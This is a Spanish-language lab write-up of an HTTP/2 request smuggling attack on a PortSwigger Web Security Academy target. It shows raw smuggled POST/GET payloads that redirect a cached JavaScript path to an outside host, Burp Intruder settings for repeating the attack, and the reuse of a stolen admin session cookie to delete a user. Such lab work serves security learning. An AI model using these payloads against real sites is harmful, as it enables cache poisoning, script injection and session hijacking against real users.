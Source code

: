 ### **Descripción del lab**
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

### Confirmación

Creí que esto iba a servir para que me de un error cuatrocientos cuatro:
```
POST / HTTP/2
Host: 0a8500f0047305298874471500b00006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=

POST /error404 HTTP/1.1 
Host: exploit-0a6000e504b5054c883146e6019b0075.exploit-server.net/exploit

```
Pero el problema es que hay dos host, por lo que está reescribiendo al mío. Además es necesarío, para que el alert dure, que la url tenga cache, encontramos un endpoint con cache, pero lleva uid, sin embargo una de las reglas de oro en HTTP smuggling es probar cada uno de los endpoint/path, así 
```
POST / HTTP/2
Host: 0a8500f0047305298874471500b00006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

X=
GET /resources/js HTTP/1.1
Host: ecample.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```
Para enviar múltiples veces este ataque utilizamos el intruder
click derecho send to intruder, configuramos que tenga null payloads y "continue indefinitely".  Vamos a resource pool y le damos a create new resource pool, También en la pestaña de resource pool, para setear el Maximun concurrent request en 1, y el delay de las solicitudes 800 milisegundos. Podemos filtrar las respuestas por las que sean válidas o 300, redirección, en "selected items". Y en settings, sacarle el update content-length
Ponemos la Cookie de sision de admin y borramos a Carlos

